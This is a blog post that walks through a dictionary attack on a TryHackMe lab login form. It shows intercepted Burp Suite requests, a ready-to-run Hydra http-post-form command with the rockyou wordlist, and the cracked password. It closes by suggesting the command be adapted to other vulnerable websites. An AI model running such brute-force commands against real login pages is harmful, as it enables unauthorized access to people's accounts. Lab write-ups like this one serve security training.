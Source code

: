 ```yaml
---
title: Dictionary Attack on Login Form
author: Ansh Vaid
date: 2021-12-28 7:10:00 +0530
categories: [Cyber Forensics]
tags: [IDS, Intrusion Detection System, HIDS, NIDS, Windows, Rules, Malicious, Requests, Linux, Host based]

---
```


![hack](/assets/EthicalHacking/hydrabanner.jpeg)

Image taken from <a href="https://miro.medium.com/max/2000/1*NCTCiMU_5o6EgFKUp90wUA.jpeg">here</a>

---


---

---

In this blog I am going to discuss how a simple login form could be compromised by a dictionary attack if the username of any account is known to the attacker. Many CTF players encounter various challenges in which this technique could be used in cracking the password of user account in web category challenges, and many participants who are beginner in cyber domain, miss this thing.
Discussing about real life scenario, then if a web developer has created a website for a particular organization, where the employees login to their respective portal by entering their username and password only, in such scenarios the login form is very vulnerable if the username of the person is compromised. This is the main reason why login forms ask email id instead, and OTP if you successfully login to account or even a limit on number of requests in a particular time span is set to encounter such attacks.
There are two tools by which this dictionary attack could be done on the login forms:
Burp suite
Hydra
Even CURL could be used to do so if you know how to integrate it with SHELL script. Burp suite is a widely used tool, be it in the penetration testing part, CTFs, MITM attacks, dictionary attacks etc. It has an option to send the intercepted request to intruder (ctrl+i) where dictionary related attacks could be performed. Most of the students download the cracked version of Burp suite professional to unlock advance options. But using such cracked versions have a risk of getting your own device compromised. Most of the people just download the cracked versions to speed up the dictionary attacks. In such cases a person can use Hydra tool, which is widely used to do the dictionary attacks on various services like SSH, FTP etc. and also the login forms too. Also the speed would be more as compared to Burp suite tool, because we can increase or decrease the number of threads of Hydra tool using -t option, and it supports around 44 threads at a time.
Vulnerable lab setup:
> Task 9 of https://tryhackme.com/room/adventofcyber3
> Use openvpn application to access the THM lab
> Username Santa is known beforehand

![hack](/assets/EthicalHacking/hydra1.jpeg)
![hack](/assets/EthicalHacking/hydra2.jpeg)
![hack](/assets/EthicalHacking/hydra3.jpeg)
![hack](/assets/EthicalHacking/hydra4.jpeg)

Login form

Username santa known beforehand

Type any random password

Setting up proxy
Run Burp suite tool, start the interceptor and apply the proxy settings in your web browser. Click on Login button in the login page. Since the password is wrong I will definitely get an error message displayed on the screen.

![hack](/assets/EthicalHacking/hydra5.png)
![hack](/assets/EthicalHacking/hydra6.png)

Error message generated on unsuccessful login

Intercepted request after Login button was pressed in login form
Following is the intercepted request that was generated on pressing Login button.
POST / HTTP/1.1
Host: 10.10.238.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://10.10.238.99
Connection: close
Referer: http://10.10.238.99/
Cookie: PHPSESSID=uep84ftk3h44nhiqerv5p8rovb
Upgrade-Insecure-Requests: 1

username=santa&password=randomPassword&submit=Login
Copy username=santa&password=randomPassword&submit=Login part from the intercepted request, and now I will show how it could be used with hydra to crack the password of username santa.
hydra -l santa -P /usr/share/wordlists/rockyou.txt 10.10.238.99 http-post-form “/:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password” -V
Explanation of above command is as follows:
> Use -l option if you know the username, and -L option to give a file path having list of usernames. Since username santa is known, therefore option -l is used in above command.
> Use -p option if you know the password, and -P option to give a file path having list of passwords. Since password is unknown, therefore option -P is used in above command. rockyou.txt is the file having list of passwords, and mostly in every CTF you will find the password from this file only.
> IP address or domain name of the website where the form is present
> Since this form is sending the credentials in POST method, therefore http-post-form is used.
> “<URL of the page where login form is present>:<parameter containing username> = ^USER^<parameter containing password> = ^PASS^<paste other parameters as it is>:F=<error message displayed on unsuccessful login which I have shown with arrow in above snapshot>”
> -V option for verbose mode, add -t option if you want to increase the number of threads.

![hack](/assets/EthicalHacking/hydra7.jpeg)
![hack](/assets/EthicalHacking/hydra8.png)

PRESS ENTER KEY TO RUN THE COMMAND

Password for username santa is cookie
Now the request will have correct password cookie for username santa.
POST / HTTP/1.1
Host: 10.10.238.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.238.99
Connection: close
Referer: http://10.10.238.99/
Cookie: PHPSESSID=uep84ftk3h44nhiqerv5p8rovb
Upgrade-Insecure-Requests: 1


username=santa&password=cookie&submit=Login

![hack](/assets/EthicalHacking/hydra9.jpeg)

Login successful
In this way you can customize the hydra command for other login forms in CTF challenges or in vulnerable websites and your dictionary must have that password in it, otherwise no matches would be found an dictionary will over.
Another room in THM to know more on Hydra: https://tryhackme.com/room/hydra
In this blog I discussed how Hydra could be used instead of Burp suite for a dictionary attack on login page whose username is known. Since the dictionary attack in community edition of burp suite is very slow and cracked version of burp suite could compromise your device, Hydra is a better option in such cases.
Social Media Links: LinkedIn | GitHub | Instagram | Twitter
Visit My Website: https://cybergeeks.website/
Originally published at https://github.com.